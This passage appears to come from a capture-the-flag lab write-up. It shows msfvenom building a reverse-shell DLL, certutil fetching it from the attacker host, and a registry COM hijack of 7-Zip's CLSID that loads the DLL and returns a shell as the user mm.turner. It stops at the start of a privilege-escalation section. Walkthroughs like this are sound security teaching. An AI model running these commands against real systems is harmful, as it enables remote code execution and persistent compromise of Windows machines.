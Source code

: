 7-Zip should be a viable vector, generate reverse shell payload DLL

```console
root@kali:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4445 -f dll -o /var/www/html/reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: /var/www/html/reverse.dll
```

Download the reverse shell DLL:

```cmd
C:\Windows\system32>cd %TEMP%
cd %TEMP%

C:\Windows\Temp>certutil.exe /urlcache /f /split http://10.10.14.3/reverse.dll
certutil.exe /urlcache /f /split http://10.10.14.3/reverse.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```

Start a listener on Kali: `rlwrap nc -nlvp 4445`

Edit registry:

```cmd
C:\Windows\Temp>reg add HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32 /ve /d C:\Windows\Temp\reverse.dll /f
reg add HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32 /ve /d C:\Windows\Temp\reverse.dll /f
The operation completed successfully.
```

Reverse shell hooked as `mm.turner`:

```cmd
root@kali:~# rlwrap nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.75] 53470
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>whoami
whoami
rustykey\mm.turner
```

## 5. Privilege Escalation

`mm.turner` is a member of `DELEGATIONMANAGER`, which has `AddAllowedToAct` on the domain controller
